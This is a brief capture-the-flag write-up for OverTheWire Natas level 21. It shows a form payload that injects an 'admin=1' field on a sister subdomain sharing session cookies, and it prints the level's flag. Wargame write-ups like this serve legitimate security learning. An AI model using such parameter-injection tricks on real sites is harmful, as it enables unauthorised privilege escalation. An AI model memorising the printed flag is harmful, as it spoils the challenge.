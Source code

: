 # Trick

The subdomains use same cookies. Change one and use the cookie on another.

On `http://natas21-experimenter.natas.labs.overthewire.org`:
```
align=center&fontsize=100%25&bgcolor=yellow&submit=Update&admin=1
```

# Flag

```
91awVM9oDiUGm33JdzM7RVLBS8bz9n0s
```